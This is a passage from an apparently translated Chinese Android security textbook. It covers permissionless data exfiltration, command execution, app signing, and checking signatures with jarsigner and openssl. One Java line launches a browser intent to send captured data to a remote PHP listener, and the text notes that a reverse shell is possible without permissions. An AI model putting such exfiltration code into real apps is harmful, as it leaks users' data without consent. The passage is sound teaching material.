 最后，我们将启动浏览器将数据发送到我们的服务器，我们有一个`.php`文件侦听传入的数据：

```
startActivity(new Intent(Intent.ACTION_VIEW,Uri.parse("http://attify.com/up.php?u="+imageString)));
```

我们还可以执行命令并以相同的方式将输出发送到远程服务器。 但是，这里需要注意的一点是 shell 应该在应用程序的用户下运行：

```
// To execute commands : 
String str = "cat /proc/version";     //command to be executed is stored in str.
process = Runtime.getRuntime().exec(str);
```

这是一个有趣的现象，因为攻击者可以获得一个反向 shell（这是一个从设备到系统的双向连接，可以用于执行命令），而不需要任何类型的权限。

## 1.4 应用签名

应用程序签名是 Android 的独特特性之一，由于其开放性和开发人员社区，它取得了成功。 Play 商店中有超过一百万个应用。 在 Android 中，任何人都可以通过下载 Android SDK 创建 Android 应用，然后将其发布到 Play 商店。 通常有两种类型的证书签名机制。 一个是由管理证书颁发机构（CA）签名的，另一个是自签名证书。 没有中间证书颁发机构（CA），而开发人员可以创建自己的证书并为应用程序签名。

在 Apple 的 iOS 应用程序模型中可以看到 CA 签名，其中开发者上传到 App Store 的每个应用程序都经过验证，然后由 Apple 的证书签名。 一旦下载到设备，设备将验证应用程序是否由 Apple 的 CA 签名，然后才允许应用程序运行。

但是，在 Android 中是相反的。 没有证书颁发机构; 而是开发人员的自创建证书可以签署应用程序。 应用程序上传完成后，会由 Google Bouncer 进行验证，这是一个虚拟环境，用于检查应用程序是否是恶意或合法的。 检查完成后，应用就会显示在 Play 商店中。 在这种情况下，Google 不会对该应用程序进行签名。 开发人员可以使用 Android SDK 附带的工具（称为`keytool`）创建自己的证书，或者使用 Eclipse 的 GUI 创建证书。

因此，在 Android 中，一旦开发人员使用他创建的证书签名了应用程序，他需要将证书的密钥保存在安全的位置，以防止其他人窃取他的密钥并使用开发人员的证书签署其他应用程序 。

如果我们有一个 Android 应用程序（`.apk`）文件，我们可以检查应用程序的签名，并找到使用称为`jarsigner`的工具签署应用程序的人，这个工具是 Android SDK 自带的：

```
$ jarsigner -verify -certs -verbose testing.apk
```

以下是在应用程序上运行上述命令并获取签名的信息的屏幕截图：

![](../img/48bdcd312a227413f79fe3cbf4cd30a9.png)

此外，解压缩`.apk`文件后，可以解析`META-INF`文件夹中出现的`CERT.RSA`文件的 ASCII 内容，以获取签名，如以下命令所示：

```
$ unzip testing.apk
$ cd META-INF
$ openssl pkcs7 -in CERT.RSA -print_certs -inform DER -out out.cer
$ cat out.cer
```

这在检测和分析未知的 Android `.apk`示例时非常有用。 因此，我们可以使用它获得签署人以及其他详细信息。

## 1.5 Android 启动流程
